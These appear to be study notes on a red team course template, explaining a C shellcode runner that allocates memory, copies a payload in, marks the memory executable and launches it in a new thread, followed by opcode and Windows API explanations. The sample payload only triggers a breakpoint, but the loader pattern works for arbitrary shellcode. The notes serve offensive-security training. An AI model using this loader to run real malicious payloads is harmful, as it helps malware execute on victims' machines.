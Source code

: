 
Code snippet
```c
/*

 Red Team Operator course code template
 storing payload in .text section
 
 author: reenz0h (twitter: @sektor7net)

*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// 4 byte payload
	unsigned char payload[] = {
		0x90,		// NOP
		0x90,		// NOP
		0xcc,		// INT3
		0xc3		// RET
	};
	unsigned int payload_len = 4;
	
	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("%-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("%-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);

	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);

	printf("\nHit me!\n");
	getchar();

	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}

	return 0;
}

```


---

#### Breakdown

##### Initialized Local Variables and .text Section

**_Initialized local variable_** is a variable that is declared within a function or a block of code and is assigned a value at the point of declaration. In programming languages like C and C++, local variables can be initialized like this:

```c
int main() {
    int l_LocalVariable = 42; // Initialized local variable

    printf("The value of the local variable is: %d\n", l_LocalVariable);
    return 0;
}
```

During a compilation time the compiler will take the initialized values and put them directly in the code section (`.text`), because local variables are stored on the stack, and assigned values have to be passed to these variables at runtime before being used later in the code.

###### Shellcode execution algorithm (C-like pseudo-code)

```c
// 1. allocate memory buffer in local process as Read/Write region to store shellcode 
exec_mem = VirtualAlloc(..., payload_length,..., PAGE_READWRITE)

// 2. copy shellcode into allocated memory buffer
RtlMoveMemory(exec_mem, payload, payload_length)

// 3. make the allocated buffer to be executable
VirtualProtect(exec_mem, payload_length, PAGE_EXECUTE_READ,...)

// 4. execute shellcode in local process by creating a new thread
CreateThread(..., exec_mem, ...)
```


###### Intel CPU Instructions

`NOP`

In x86 and x64 Intel CPU architectures, the **_NOP (No Operation)_** instruction is used to perform no operation or simply to introduce a delay in the program execution. It does not affect any of the CPU's flags or modify any registers.

The `NOP` instruction is represented by the opcode `0x90`.

---

`INT3`

**_INT3_** instruction is a **_software interrupt instruction_** that generates a breakpoint exception. It is used as a debugging aid and is often inserted into code intentionally to allow developers to pause the execution of a program at a specific location and inspect its state using a debugger.

The opcode for the `INT3` instruction is `0xCC`.

---

`RET`

**_RET (Return)_** instruction is used to return control from a subroutine to the calling function. It pops the return address from the top of the stack and transfers program execution to that address, effectively returning control to the caller.

The opcode for the `RET` instruction is `0xC3`.

---
#### Key Windows API functions

[**_VirtualAlloc()_**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function is used for reserving and committing memory in the virtual address space of a process. It allows a program to dynamically allocate memory during runtime, providing more flexibility and control over memory management. This function can be found in the _kernel32.dll_ library.

`VirtualAlloc()` function has the following prototype:

```c
LPVOID VirtualAlloc(
  LPVOID lpAddress,        // starting address of the region to allocate. If NULL, the system determines where to allocate the region
  SIZE_T dwSize,           // size of the region to allocate (in bytes)
  DWORD  flAllocationType, // type of memory allocation. Typically: MEM_COMMIT, MEM_RESERVE
  DWORD  flProtect         // memory protection for the region of pages to be allocated, ex. PAGE_READWRITE, PAGE_EXECUTE_READWRITE, etc.
);
```

**Return value**
If the function succeeds, the return value is the base address of the allocated region of pages. Otherwise, the return value is `NULL`.

---

[**_RtlMoveMemory()_**](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory) function is used for memory block copy operations and is similar to the standard `memcpy` function. This function can be found in the _ntdll.dll_ library.

`RtlMoveMemory()` function has the following prototype:

```c
void RtlMoveMemory(
  void *Destination,    // pointer to the destination memory block to copy the bytes to
  const void *Source,   // pointer to the source memory block to copy the bytes from
  size_t Length         // number of bytes to copy from the source to the destination
);
```

**Return value**
None.

---

[**_VirtualProtect()_**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) function is used to change the protection attributes of a region of virtual memory in the address space of a process. This allows you to control the access rights and permissions for a particular memory region, such as making it readable, writable, executable, or a combination of these attributes. This function can be found in the _kernel32.dll_ library.

`VirtualProtect()` function has the following prototype:

```c
BOOL VirtualProtect(
  LPVOID lpAddress,      // address of the starting page of the region of pages whose access protection attributes are to be changed
  SIZE_T dwSize,         // size of the region whose access protection attributes are to be changed (in bytes)
  DWORD  flNewProtect,   // memory protection option, ex. PAGE_EXECUTE_READ, PAGE_EXECUTE_READWRITE, PAGE_READWRITE, etc.
  PDWORD lpflOldProtect  // pointer to a variable that receives the previous access protection value. If NULL, the function fails
);
```

>  More on `PDWORD lpflOldProtect`; this is used to store previous page protection bits so the program can (if desired) restore them later. 
> 
> The function expects a pointer (`PDWORD`) for that parameter; using `&oldprotect` passes the address of your `DWORD` variable so the kernel can write the old protection value there.

> Don’t reuse the same variable for the restore call unless you handle it carefully

**Return value**
If the function succeeds, the return value is nonzero. Otherwise, the return value is zero.

